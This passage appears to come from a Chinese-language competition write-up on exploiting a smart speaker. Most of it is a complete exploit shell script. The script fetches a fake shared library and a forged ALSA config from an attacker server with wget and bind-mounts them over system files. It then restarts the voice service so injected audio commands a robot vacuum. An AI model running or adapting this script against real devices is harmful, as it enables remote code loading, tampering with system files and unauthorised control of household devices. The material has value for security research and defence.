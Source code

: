 #### 重启业务进程

伪造的声卡，伪造的音频，伪造的动态库都搞定后，kill业务进程即可，其会自动重启：

```c
# killall mipns-horizon
```

## 完整利用

服务器（补天杯当时我们还特意使用了杭州阿里云以确保速度）准备文件：

- asound.conf
- libvpm_fake.so
- noise.mp3
- saodi_run.raw
- saodi_stop.raw

完整利用脚本exp.sh如下：

- play：把声音跳到最大播放自定义音频
- prepare：把声音调到最低，然后准备好虚假的动态库与声卡配置文件并挂载覆盖
- saodi_run：替换声卡配置文件中的输入文件为扫地机器人出动的音频，并重启业务进程
- saodi_run：替换声卡配置文件中的输入文件为扫地机器人回家的音频，并重启业务进程

```sh
server="192.168.40.119:8000"
if [ "$1" = "play" ]; then
  wget -P /tmp http://${server}/noise.mp3
  ubus -t 1 call mediaplayer player_set_volume {\"volume\":100}
  ubus -t 1 call mediaplayer player_play_url {\"url\":\"file:///tmp/noise.mp3\",\"type\":1}
elif [ "$1" = "prepare" ]; then
  ubus -t 1 call mediaplayer player_set_volume {\"volume\":0}
  wget -P /tmp http://${server}/libvpm_fake.so
  wget -P /tmp http://${server}/asound.conf
  mount -o bind /tmp/asound.conf     /etc/asound.conf 
  mount -o bind /tmp/libvpm_fake.so  /usr/lib/libvpm.so
elif [ "$1" = "saodi_run" ]; then
  rm /tmp/*.raw
  wget -P /tmp http://${server}/saodi_run.raw
  sed -i 's/infile.*/infile "\/tmp\/saodi_run.raw"/g' /tmp/asound.conf
  umount /etc/asound.conf ; mount -o bind /tmp/asound.conf  /etc/asound.conf 
  killall mipns-horizon
  echo "[+] saodi_run"
elif [ "$1" = "saodi_stop" ]; then
  rm /tmp/*.raw
  wget -P /tmp wget http://${server}/saodi_stop.raw
  sed -i 's/infile.*/infile "\/tmp\/saodi_stop.raw"/g' /tmp/asound.conf
  umount /etc/asound.conf ; mount -o bind /tmp/asound.conf  /etc/asound.conf 
  killall mipns-horizon
  echo "[+] saodi_stop"
fi
```
